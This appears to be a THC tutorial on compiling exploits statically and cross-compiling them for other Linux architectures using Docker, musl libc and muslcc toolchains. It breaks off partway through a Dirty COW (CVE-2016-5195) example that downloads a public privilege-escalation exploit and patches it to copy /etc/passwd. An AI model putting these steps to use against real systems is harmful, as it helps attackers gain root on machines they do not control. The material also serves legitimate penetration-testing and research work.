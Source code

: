 
***

## TL;DR: Use docker & QEMU and _gcc -static_.

***

It is not always possible to compile an exploit on the target system. Here at THC we use various methods to compile an exploit in such a situation.

After reading this article you will be able to compile any exploit for any Linux/Architecture regardless of the OS/Architecture you are on.

# Compiling statically

> This works well for exploits that can be compiled statically and where the target is any Linux and the architecture is identical to our architecture (x86_64).

The standard `GNU libc` is not suitable for compiling static binaries. Instead we use `MUSL libc`. The MUSL libc is a C standard library just like GNU's libc. It's smaller, cleaner and easier to handle.

Alpine Linux comes with musl libc. We use Docker to run Alpine Linux.

```console
$ docker run --rm -v $(pwd):/src -w /src -it alpine
/src # apk update && apk add gcc
/src # gcc -Wall -O2 -static -o exploit exploit.c
```

# Cross Compiling statically

> This works well for exploits that can be compiled statically and where the target is any Linux and the architecture is _DIFFERENT_ to our architecture (x86_64).

The fine folks at https://musl.cc/ maintain cross-compiler toolchains against MUSL libc for many different architectures.

These toolchains can be used to generate a (static) Linux binary for a different architecture (e.g. arm6v or aarch64).

The MUSL-CC folks also maintain Docker Images with the cross-compiler toolchain: This allows us to cross compile _STATIC_ binaries (for a different architecture) for Linux.

## Cross Compiling statically using muslcc & Docker

Let's compile the exploit for [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195) to run on Raspberry PI Linux (armv6l) while our workstation is MacOS (x86_64).

The vulnerability is a local privilege escalation in Linux Kernel <4.8.3.

Firstly, there is a bug in the reference exploit. Let's fix this first:
```shell
mkdir thc; cd thc
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
sed  -i 'sX.*= copy_file.*Xint ret = system("cp /etc/passwd /tmp/passwd.bak");X' dirty.c
```
